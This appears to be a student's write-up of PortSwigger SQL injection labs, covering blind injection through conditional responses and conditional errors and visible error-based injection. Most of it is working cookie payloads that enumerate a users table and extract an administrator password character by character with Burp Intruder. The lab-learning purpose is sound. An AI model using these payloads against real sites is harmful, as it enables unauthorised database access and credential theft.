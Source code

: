 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```sql
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```sql
If there is Error, means the Query is getting processed by Server & We can give conditions to test for the payloads

TrackingId=3K2lIneuWTHL6FqO' Error
TrackingId=3K2lIneuWTHL6FqO'' No Error

'||(SELECT '')||' error
'||(SELECT '' from dual)||' No error (ORacle DB)

TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from Incorrect_table)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from users where ROWNUM=1)||'; No error means the `Users` table exists in DB

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Codition True, No Error with this.

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that there is a user named Administrator
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that the password Length is > 1

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'; Confirms the Length is of 20 characters
```

- Use SUBSTR( string, start_position [, length ]) to check the password length
- Use Intruder's Sniper Attack type to fuzz the password by comparing each & every position from SUBSTR(password,1,1) to SUBSTR(password,20,1)
- Copy each letter from result if recieved Error 500, use the same to login after extracting all 20 letters.

```sql
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

hn8u07gig6zkt9947d47

- Now, login with extracted passsword.
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)

- Capture the GET/ request: Look for the Cookie: "TrackingId" > Send it to Repeater.
- In Repeater, append a single quote to the value of your TrackingId cookie and send the request.
`TrackingId=ogAZZfxtOKUELbuJ'` > Observe the error > TrackingId=ogAZZfxtOKUELbuJ'-- > Comment out the rest of the query > Observe the error.
- Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` > Observe the Error
- Modify the Query: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
- Adapt your generic SELECT statement so that it retrieves usernames from the database: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` > Observe the error.
- Delete the TrackingID value & Observe the error.
- Modify the query to return only one row: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)`
- Try to leak the Creds > Look for Creds on the page.


## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)
- 

